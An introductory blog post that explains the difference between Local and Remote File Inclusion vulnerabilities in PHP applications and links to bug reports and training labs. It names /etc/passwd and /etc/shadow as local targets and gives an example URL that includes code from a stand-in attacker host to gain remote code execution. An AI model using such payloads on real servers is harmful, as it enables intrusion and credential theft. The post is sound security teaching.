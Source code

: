 # <center> RFI and LFI, how to find them and what’s the difference between them? </center>

Hello everyone! Today I'm writing my first blog about two really similiar vulnerabilities.
File Inclusions are mostly found in PHP Applications, they are the result of using <code> include() </code> incorrectly 
(for the most cases). In addition they can be found in Node JS and Python Apps too. People sometimes can't make the difference 
between those two similiar vulnerabilities, that's okay because in today's blog I'll try to explain it on some easy examples.
Let's see now:
In the easiest way if we want to explain it
When hacker is exploiting RFI he uses a Remote File while on the other side LFI uses local files when they are attacking server,
even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local files on system, 
for example <code> /etc/passwd </code> or <code> /etc/shadow </code>.
<img src="lfi-example.png"/>
<br>
On the other hand while exploiting RFI you can upload file from remote server which in 99% will result in 
RCE(Remote Code Execution). For example <code> https://www.site.com/app.php?file=http://attackers.website.com/file.php </code>.
You could execute malicious code from the <code> file.php </code> file and use it for evil intention.
LFI is way more popular than RFI because nowadays it is way easier to protect against including Remote Malicious Files, but
you never know 🙂. 
File Inclusion Vulnerabilities are ranked critical since they can cause server-side injections and in most cases you can get RCE.

# > Some File Inlusion Reports:
<a href="https://hackerone.com/reports/59665"> Local File Inclusion Vulnerability in Concrete5 version 5.7.3.1 </a>
<a href="https://hackerone.com/reports/895972"> Limited LFI </a>
<a href="https://bugreader.com/updatelap@local-file-inclusion-in-peeringgooglecom-70"> Local File Inclusion in peering.google.com </a>

# > Some More Content About File Inclusions
<a href="https://book.hacktricks.xyz/pentesting-web/file-inclusion"> HackTricks </a>
<a href="https://tryhackme.com/room/inclusion"> TryHackMe </a>
<a href="https://dvwa.co.uk/"> DVWA </a>

That was it for this blog, I hope you enjoyed it and would like you to follow my <a href="https://twitter.com/ArikSyer"> Twitter </a>
so you get notified when I post another blog.


